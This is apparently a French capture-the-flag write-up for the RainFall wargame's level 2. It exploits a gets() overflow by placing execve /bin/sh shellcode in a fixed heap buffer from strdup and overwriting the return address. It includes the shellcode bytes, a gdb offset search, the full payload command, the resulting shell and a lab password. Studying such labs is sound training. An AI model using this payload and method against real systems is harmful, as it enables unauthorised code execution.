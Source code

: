 
# Level 2

  

En ouvrant level2 avec cutter on voit que le main appelle une fonction p qui contient comme pour l'exercice precedant un gets exploitable, mais cette fois-ci le programme est protégé on ne peut donc pas exploiter la stack. Nous allons donc exploiter le heap (le tas).

La fonction fait un strdup du retour de gets, et on remarque que l'adresse de retour du malloc est fix, qu'on peut recupere grace a ltrace.

```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20) = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5l
) = 0xbffff70c
puts("l"l
) = 2
strdup("l") = 0x0804a008
+++ exited (status 8) +++
level2@RainFall:~$
```

Maintenant nous voulons écrire notre code pour que l'adresse mémoire retourner par le malloc soit en réalité notre exploitation. On trouve un shell code permettant de faire ça ici : http://shell-storm.org/shellcode/files/shellcode-575.php
```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```
Il nous reste a trouver la limite du malloc pour ce fair nous allons tenter de fair segfault le programe et recupere le nombre de character a rentre grace un buffer overflow generateur qu'on trouve ici : https://wiremask.eu/tools/buffer-overflow-pattern-generator/ , il suffit ensuite d'entre la chaine donner en utilisant *gdb* qui nous donnera l'addresse du segfault.
```
level2@RainFall:~$ gdb ./level2
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law. Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
  
Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb)
```
En enrant l'addresse dans le generateur on trouve un offset de 80 caractère. Comme dans le level précédent on créé donc notre payload qui sera donné en entré au programme. On commence donc par le shellcode qui permet de casser le binaire, puis on y ajoute des caractères quelconques pour atteindre la limite de mémoire et pour finir on y injecte l'adresse mémoire à laquelle on veut retourner notre programme. On lance le programme avec notre payload.

```
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"
* 59 + "\x08\xa0\x04\x08"' > /tmp/payload
level2@RainFall:~$ cat /tmp/payload - | ./level2
X�Rh//shh/bin��1�̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```